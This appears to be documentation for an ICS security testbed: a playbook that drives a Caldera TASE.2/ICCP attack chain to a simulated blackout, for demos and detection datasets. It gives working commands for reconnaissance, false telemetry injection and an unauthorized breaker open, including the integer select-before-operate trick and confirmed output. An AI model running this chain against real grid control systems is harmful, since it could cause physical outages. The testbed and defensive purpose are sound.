

# Caldera blackout playbook: an attack chain that puts the lights out

This guide models a full, ordered attack chain from the
[TASE.2 Caldera plugin](caldera-usage.md) against two suite deployments and drives
each to a blackout you can see on the HMI, capture on the wire, and label for a
dataset. It is written for a live threat-modeling demo and for data collection: the
chain is the same recon, manipulation, and command sequence a real intrusion uses,
and the last step has a physical consequence rather than just a protocol event.

Everything below was run end to end and confirmed; the {ref}`confirmed transcript
<blackout-confirmed>` is the actual output.

## The two targets

| Deployment | Domain | What a blackout means here | Trigger object |
|-----------|--------|----------------------------|----------------|
| `grid-demo` | `WESTERN_AREA` | A real cascade: opening the inter-area tie overloads the parallel line, it trips, and the load island goes dark | `CENTRAL_EAST_CB_ctl` (the Central-East tie) |
| `testbed-demo` | `TestDomain` | Direct de-energization: opening the feeder breakers drops the lab feeders and their stations read open and offline | `plc1_brk_ctl`, `rtu1_brk_ctl`, `plc2_brk_ctl` |

`grid-demo` is the headline demo because the consequence is emergent: one breaker
command, and the power-flow co-simulation cascades the rest. `testbed-demo` has no
grid solver, so there the blackout is the direct result of opening each feeder.

## The kill chain



## The ordered steps

Each row is one Caldera ability. The "object" is what it touches on the wire; the
fact names in parentheses are what you set. Abilities and facts are the ones in the
plugin (see [the capability reference](caldera-usage.md)).

| # | Ability (subcommand) | ATT&CK | Object it touches | Why |
|---|----------------------|--------|-------------------|-----|
| 1 | Association Probe (`connect`) | T0846 | the association | confirm you can associate |
| 2 | Fingerprint Endpoint (`fingerprint`) | T0888 | metadata objects | learn the server, blocks, component names |
| 3 | Enumerate Domains (`domains`) | T0846 | VMD directory | find the domain (`WESTERN_AREA`) |
| 4 | Enumerate BLT + objects (`discover`) | T0888 | bilateral table, object list | find the breakers and their `_ctl` objects |
| 5 | Monitor Points (`monitor`) | T0801 | indication points | baseline the tie flow and breaker state |
| 6 | Inject False Telemetry (`inject`) | T0856 | `CENTRAL_EAST_MW$Value` | mask the tie flow, manipulation of view |
| 7 | **Block 5 Control (`control`)** | T0855 | `CENTRAL_EAST_CB_ctl$SBO` then `$Command` | **open the tie: the blackout trigger** |
| 8 | Capture Transfer Set Reports (`report-capture`) | T0801 | `DSTransferSet01` | collect the after-state for the dataset |

Step 7 is the decisive one. Steps 1 to 5 are reconnaissance and baselining, step 6
is the view manipulation that hides the strike, and step 8 collects the result.

(needs-sbo-int)=
## The one thing that makes the breaker open: integer SBO select

The suite's breakers are select-before-operate, and the suite server arms the select
by an **integer write of 1 to the control's `SBO` register**, then accepts the
`Command` write on the same association. The plugin's default `control` selects by
writing a string tag, which the integer `SBO` register rejects, so the operate is
denied. Drive a suite SBO breaker by telling the control ability to select with an
integer:

- set `tase2.comp.select` to `SBO`, and
- set `tase2.ctl.selflags` to `--sbo-int`.

The grid-demo fact source ships with both set. By hand the flag is `--sbo-int`
together with `--select-comp SBO`. A breaker configured for direct operate (for
example `plc2_brk` on `testbed-demo`) needs neither: a plain `control` writes its
`Command` and it operates.

## Run it from Caldera

1. Start the target. For the cascade demo:

   ```bash
   python3 suite/tase2ctl.py run grid-demo
   ```

2. In Caldera, select the **ICCP Grid Blackout (FreeTASE2 grid-demo)** adversary and
   the **TASE.2 Grid Blackout Facts (FreeTASE2 grid-demo)** fact source, then run the
   operation against an agent that can reach the server on TCP 102. The adversary
   runs the eight steps above in order. The source targets `CENTRAL_EAST_CB_ctl` with
   the integer SBO select already set.

3. Watch the HMI at <http://127.0.0.1:8800>: after step 7 the tie opens, the parallel
   line trips, and the East stations go offline.

For `testbed-demo`, point the same control ability at `plc1_brk_ctl` (and
`rtu1_brk_ctl`) in domain `TestDomain`, keeping `--sbo-int` for those SBO breakers.

## Run it by hand

The same chain as raw payload commands (loopback, port 102 needs sudo). Discovery
and baseline first:

```bash
./tase2_actions connect    127.0.0.1 102 --id-spec none
./tase2_actions fingerprint 127.0.0.1 102 --id-spec none
./tase2_actions domains    127.0.0.1 102 --id-spec none
./tase2_actions discover   127.0.0.1 102 WESTERN_AREA --id-spec none
./tase2_actions monitor    127.0.0.1 102 WESTERN_AREA CENTRAL_EAST_MW,CENTRAL_EAST_CB 12 --id-spec none
```

Then the strike, the breaker open that cascades the grid:

```bash
# optional: mask the tie flow first (T0856)
./tase2_actions inject 127.0.0.1 102 WESTERN_AREA CENTRAL_EAST_MW '45.0' --value-comp Value --id-spec none

# open the Central-East tie (T0855): select by integer 1 to SBO, then operate Command 0
./tase2_actions control 127.0.0.1 102 WESTERN_AREA CENTRAL_EAST_CB_ctl discrete 0 \
    --select-comp SBO --operate-comp Command --sbo-int --id-spec none
```

(blackout-confirmed)=
## Tested and confirmed

Run against `grid-demo` (here on a non-privileged port for the test harness), this
is the actual sequence. Before the strike the grid is in steady state, all eleven
lines in service:

```text
[physics] flows: L_RIV_CEN=135MW  L_MESA_CEN=180MW  L_CEN_EAST=45MW  L_RIV_EAST=95MW
                 L_CEN_NTIE=80MW  L_EAST_STIE=-60MW  T_CEN_OAK=109MW  T_CEN_CED=81MW
                 T_EAST_PINE=90MW  T_EAST_STEEL=110MW  L_OAK_CED=-11MW
```

The Block 5 control selects and operates cleanly:

```text
[tase2_actions] SELECT CENTRAL_EAST_CB_ctl$SBO (int=1)
[tase2_actions] write WESTERN_AREA/CENTRAL_EAST_CB_ctl$SBO (int) = 1 -> err 0 (ok)
[tase2_actions] OPERATE CENTRAL_EAST_CB_ctl$Command (kind=discrete) = 0
[tase2_actions] write WESTERN_AREA/CENTRAL_EAST_CB_ctl$Command (int) = 0 -> err 0 (ok)
[tase2_actions] STATUS CENTRAL_EAST_CB_ctl$Status = 1
```

The co-simulation reads the command, opens the line, and the cascade unfolds:

```text
[physics] breaker CENTRAL_EAST_CB -> OPEN
[physics] OVERLOAD trip: line L_RIV_EAST at 140.0 MW over 130 MW limit
[physics] flows: ... L_CEN_EAST=0MW [OUT]  L_RIV_EAST=0MW [OUT] ...
                 T_EAST_PINE=0MW  T_EAST_STEEL=0MW ...
```

`L_CEN_EAST` and `L_RIV_EAST` are out, and the East 345 kV island with the PINE 138
and STEEL 138 load substations is de-energized: a blackout, caused by one
unauthorized command on top of recon and a masked view.

## Do it from the HMI

The HMI gives you the operator's-eye version of step 7, the same Block 5
select-before-operate the attack issues, so you can show the manual and the automated
path side by side:

1. Open the SCADA HMI at <http://127.0.0.1:8800> and find the tie breaker point
   (`CENTRAL_EAST_CB`, the LINE TO EAST BREAKER, on the Central 345 substation).
2. Click it to open the instrument detail panel. Because it is a select-before-operate
   control, the panel shows **SELECT** first.
3. Press **SELECT** (the point arms, with a countdown), then press **OPEN**. That is
   the operator equivalent of the plugin's `control` step, the integer SBO select
   then the operate.
4. Watch the cascade on the points table and the event recorder: the tie flow drops,
   `L_RIV_EAST` trips, and the East, Pine, and Steel stations go to not-valid and
   read offline. Drag the event recorder up (see {doc}`operations`) to follow the
   sequence-of-events.

The false-telemetry step (6) has no operator control, an operator does not inject a
value, so it has no HMI equivalent. In physics mode the co-simulation also refreshes
the injected point each tick, so the mask is transient on `grid-demo`; it still
appears on the wire as T0856 and on the operator screen for a moment. For a
persistent FDI mask, use the {doc}`scenario engine <scenarios>` with the
`cascade-demo` deployment, where an injected value is pinned over the physics.

## Collect the data

This chain is built to be captured and labelled. The fastest path is to run it as a
scenario so the ground truth is written for you:

```bash
sudo SCENARIO=scenarios/fdi_cascade.json ./scripts/58_run_dataset.sh
./scripts/59_score.sh datasets/<run>
```

To capture a live Caldera run instead, start a capture on the TASE.2 port before the
operation and label it against a ground-truth file afterward (see {doc}`datasets` and
{doc}`scoring`). Two properties make the result high quality for detection work:

- **The attack is on its own association.** The recon reads, the false write, and the
  breaker command all come from the Caldera agent, not the trusted feed, so a
  detector can be graded on telling the two associations apart. See the
  {doc}`attack library <attacks>` for the indicators per step.
- **The consequence is physical and labelled.** The cascade trips are recorded with
  microsecond timestamps, so each event lines up with the exact packet in Wireshark
  (see {doc}`scenarios`, "Correlating an event with the exact packet").

## Defensive read

The same chain is a checklist for what to detect and prevent: a second association
issuing reads it has no need for, a write to an indication point's `$Value` (false
data), and a write to a `_ctl$Command` from a non-control-center peer (the breaker
command). The {doc}`hardened profile and bilateral table <federation>` stop the last
two at the server: the command allowlist and per-peer scoping deny the operate and
the injection from an unauthorized peer, turning this blackout into a denied-and-
logged event.
